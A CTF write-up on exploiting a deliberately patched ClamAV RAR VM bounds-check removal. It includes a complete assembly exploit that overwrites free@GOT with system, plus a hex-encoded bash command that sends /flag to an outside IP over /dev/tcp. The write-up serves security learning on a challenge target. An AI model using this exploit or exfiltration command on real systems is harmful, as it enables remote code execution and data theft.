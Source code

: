## Real World CTF 2019

This year's real world CTF was really awesome. It had several improvements from last year. (challenges had more directions and hints, crypto and reverse challenges introduced) I spent a lot of time on Fuchsia IPC reversing (`cai-dan-ti-1`) and peeking at recent PHP commit logs (`MoP`) but I coudldn't solve any of them, which is sad. I managed to solve only one challenge, `anti-anti-virus`. Here is my write-up.

Also, just in case you're curious the pwnables that came out were based on the following topics: 
<1> cai-dan-ti (1,2): Reversing-Shellcoding-Pwning on Google Fuchsia 
<2> Dezhou Instruments: Pwning an iPhone application 
<3> MoP: exploiting a PHP memory corruption bug to bypass `base_dir` and `disable_function` to achieve full RCE. 
<4> Across the Great Wall: exploiting a userland proxy
<5> faX senDeR: some userland pwanble related to XDR, I don't really know much
<6> accessible & appetizer: Browser exploitation challenges


## Analysis
We are given a lot of shared library files, two binaries (`clamscan` and `clamdscan`), a readme and a patch.diff file. The readme states that the two binaries were built on version commit ID ``, and applied the given patch.diff file. We can actually build clam ourselves, by doing 
```bash
git clone https://github.com/Cisco-Talos/clamav-devel
git reset --hard 6c11e824a794770c469f3a46141d5ea7927b6ea6
apply -s -p1 < ../patch.diff
```

ClamAV is an open source virus scanner. What we should do is to get full RCE when ClamAV is given a file. At first I thought the challenge would be really hard, because the clamscan binary had all protections (PIE, NX, Full RELRO, FORTIFY) enabled and we need to get a reverse shell (the server does not show any output, and leaking the flag bit by bit via time-based approach is not possible due to PoW) without any interactions. It is hard to bypass ASLR in an interactionless-exploit unless the given primitive is really powerful. 

I took a look at the patch file, and spotted mainly two things. 
<1> Some structure members' size increased from 4 bytes to 8 bytes. Theoretically, this should not introduce any bugs, but I guess the intention was to make exploitation easier, since in 64bit userspace applications pointers are 8 bytes.
<2> I spotted something that looks like a bounds check elimination. I guessed this is the root bug. 

All the patches were done on a file called rarvm.c. RAR is a file format for archiving data. How is VM (Virutal Machine) supposed to be related to it? At first I thought that it was a sandboxed executor for binaries inside the archived rar file. I started analyzing the source code but couldn't understand what rar vm really is. 

After getting some sleep, I google searched about RAR vm. It showed a very old [CVE](https://www.cvedetails.com/cve/CVE-2007-3725/) on ClamAV, which seemed kinda relevant. Also I spotted a [blogpost](http://blog.cmpxchg8b.com/2012/09/fun-with-constrained-programming.html) about rarVM. WTF? RAR has support for custom bytecode, and unrar'ing programs execute them? How surprising. 

I also found [this](https://github.com/taviso/rarvmtools) repository, which implemented a linker and assembler for rar files. I think it was super cool. I decided to use it when constructing my exploit.

Now, I get the point of the challenge: escape the implemented rar VM executor and get RCE

## Exploitation
The bounds check elimination in the patch is the following:
```
-		return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]);
+		/* return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]); */
+		return ((size_t *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) /*& RARVM_MEMMASK*/]);
```
Basically it is a piece of code that translates RAR VM memory addresses to real memory addresses. Originally. the RAR VM memory address was confined from range 0 ~ 0x3fffff. (RARVM_MEMMASK = 0x3fffff) However, the masking is eliminated, so we can access arbitrary addresses relative to `rarvm_data->mem`. With the help of a debugger, I found that mem points to an mmapped chunk address, so we can access all the libraries through it, since libraries are also loaded via mmap and have constant distances from mmapped chunks. My idea was to access the free@GOT of libunrar.so, read the lower 4 bytes, subtract an adequate value so that the 4 bytes are equal to the lower 4 bytes of system, and place those 4 bytes back at free@GOT.

Also, the `mem` pointer must be freed at some point, so I wrote code so that it places commands at the start of `mem`. The start of `mem` can be accessed by the VM address 0. I wrote a helper script, `encode_cmd.py` that generates an assembly code that does this. To prevent the commandline string from overwriting running code, I padded the start with a bunch of NOP sequences. Here is my full exploit.

```
#include <constants.rh>
#include <util.rh>
#include <math.rh>
#include <crctools.rh>

_start:
	; Install our message in the output buffer
	mov r3, #0x0
	add r3, #0x1622bff0 ; offset between unrar start and mmap chunk
	add r3, #0x20C018
	mov r4, [r3]
	sub r4, #296208
	mov [r3], r4 ; change free to system
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	
	mov [r3+#0], #0x6e69622f
	mov [r3+#4], #0x7361622f
	mov [r3+#8], #0x632d2068
	mov [r3+#12], #0x2f282220
	mov [r3+#16], #0x2f6e6962
	mov [r3+#20], #0x20746163
	mov [r3+#24], #0x616c662f
	mov [r3+#28], #0x202f2067
	mov [r3+#32], #0x31263e32
	mov [r3+#36], #0x203e2029
	mov [r3+#40], #0x7665642f
	mov [r3+#44], #0x7063742f
	mov [r3+#48], #0x322e312f
	mov [r3+#52], #0x352e3535
	mov [r3+#56], #0x33362e34
	mov [r3+#60], #0x3939392f
	mov [r3+#64], #0x2238
	call $_success
```

Now using rarvmtools, compile this assembly fiel (it feels weird to do `make paylaod.rar`!) and upload it. It sends the flag to my listening server.

